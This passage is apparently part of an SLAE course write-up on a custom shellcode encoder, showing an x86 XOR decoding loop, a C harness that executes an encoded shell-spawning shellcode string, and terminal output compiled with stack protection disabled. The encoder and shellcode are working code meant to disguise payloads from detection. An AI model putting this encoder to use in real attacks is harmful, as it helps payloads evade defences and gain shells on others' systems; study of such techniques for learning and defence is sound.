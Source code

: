 Finally, at last we have to XOR the remaining part of the shellcode by 0x46.

The procedure of the XOR operation should be the pollowing:

+ Perform a XOR operation with 0x46 on the value of ESI.
+ Increment ESI, pointing to the next byte.
+ Continue the loop.
+ Once this is finished, jump to the fully decoded shellcode.

```term
decode3:

      xor byte [esi], 0x46           ; Performs a XOR operation between the value of ESI and 0x46
      inc esi                        ; Increments ESI, therefore performing aXOR operation on every opcode
      loop decode3                   ; Starts loop
      jmp short shellcode            ; Jumps to the shellcode

```

Let's test this encoder within the C format:

```term
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\xeb\x38\x5d\x89\xee\x8d\x7e\x01\x31\xc0\x31\xdb\xb1\x2c\xb0\x01\x8a\x1c\x06\x80\xf3\x45\x8a\x5c\x06\x01\x88\x1f\x47\x04\x02\xe2\xef\xb1\x16\x31\xf6\x89\xee\xf6\x16\x46\xe2\xfb
\xb1\x16\x31\xf6\x89\xee\x80\x36\x46\x46\xe2\xfa\xeb\x05\xe8\xc3\xff\xff\xff\x88\x45\x79\x45\xe9\x45\xd1\x45\x96\x45\x96\x45\xca\x45\xd1\x45\xd1\x45\x96\x45\xdb\x45\xd0\x45\xd7\
x45\x30\x45\x5a\x45\xe9\x45\x30\x45\x5b\x45\x09\x45\xb2\x45\x74\x45\x39\x45";

main()
{

  printf("Shellcode Length:  %d\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();

}
```

#### EndGame

```term
whitecr0wz@SLAE:~/assembly/assignments/Assignment_4$ gcc custom_insertion.c -o custom_insertion -fno-stack-protector -z execstack -w 
whitecr0wz@SLAE:~/assembly/assignments/Assignment_4$ ./custom_insertion 
Shellcode Length:  107
$
```
